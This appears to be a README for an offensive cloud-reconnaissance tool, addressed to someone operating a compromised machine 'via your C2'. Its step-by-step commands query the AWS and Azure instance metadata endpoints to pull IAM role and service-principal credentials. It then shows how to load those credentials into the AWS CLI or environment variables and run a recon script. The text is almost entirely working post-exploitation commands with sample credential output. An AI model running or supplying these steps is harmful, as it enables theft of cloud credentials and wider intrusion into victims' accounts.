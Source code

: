 ## 🔐 Step 1: Extract AWS Credentials from EC2 Instance
Run this in the compromised EC2 (PowerShell or cmd via your C2):

```
Invoke-RestMethod -Uri http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Then get the actual credentials:

```
Invoke-RestMethod -Uri http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>
```

You’ll get output like:

```
{
  "AccessKeyId": "AKIA***********",
  "SecretAccessKey": "***************",
  "Token": "***************",
  "Expiration": "2025-06-14T14:00:00Z"
}
```
## Step 2: Use aws configure
Run this:

```
aws configure
```

It will ask:
```
AWS Access Key ID:     <your_access_key>
AWS Secret Access Key: <your_secret_key>
Default region name:   us-east-1 (or any region)
Default output format: json
```

Then run the script:

```
python3 aws_cloud_recon.py
```

## Step 2: Extract Azure Credentials

On Azure VM

```
Invoke-WebRequest -Headers @{"Metadata"="true"} -Uri "http://169.254.169.254/metadata/instance?api-version=2021-01-01"
```
Or in Linux:

```
curl -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-01-01"
```

Export Credentials to Environment
In your terminal (replace placeholders with real values):

```
export AZURE_CLIENT_ID="xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"
export AZURE_TENANT_ID="xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"
export AZURE_CLIENT_SECRET="your-client-secret-here"
```

To make it permanent, add to ~/.bashrc or ~/.zshrc.
